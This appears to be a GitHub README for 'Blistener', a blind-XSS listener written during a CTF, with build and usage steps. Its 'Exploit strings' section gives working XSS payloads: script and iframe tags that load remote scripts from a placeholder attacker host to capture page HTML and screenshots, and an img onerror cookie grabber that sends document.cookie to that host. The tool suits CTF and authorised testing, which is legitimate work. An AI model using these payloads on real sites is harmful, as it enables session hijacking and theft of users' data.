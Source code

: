 # Blistener (Blind-XSS listener)

Code was written quickly during a CTF and should probably be refactored. Not going to change it for now since it's working. I'll refactor when I add new features to it.

It has 2 exploits, one which will take all data available on the page including the html code and the other which will also take a screenshot of the page as well as all the data on the page.


## Compiling

```
go build blistener.go
```

## Usage

1. Create an output directory where the listener will store html code and png images from the xss pages it identifies

2. Start the listener:
```
./blistener
```

3. Use one of the payloads to trigger an XSS 

## Exploit strings


```
# The normal payloads will grab all content from the page including the html source
<script src="http://<your host or ip>:8899/payload.js"></script>
<iframe src="http://<your host or ip>:8899/iframe.html"></iframe>


# The extended payloads do the same as the normal payloads except that they also take a screenshot of the page 
<script src="http://<your host or ip>:8899/payload-ext.js"></script>
<iframe src="http://<your host or ip>:8899/iframe-ext.html"></iframe>

# You call also use a normal request to make sure the XSS can be trigger such as:
<img src="http://<your host or ip>:8899/" />

# Simple cookie grabber
<img src=x onerror="new Image().src = `http://<your host or ip>:8899/?c=${document.cookie}`" />
```

_Note: The listener is on port 8899 by default, change to another port if you need._


## Example trigger

![example trigger](.github/img/example.png)


## Todo

- Add cli flags
- Refactor code
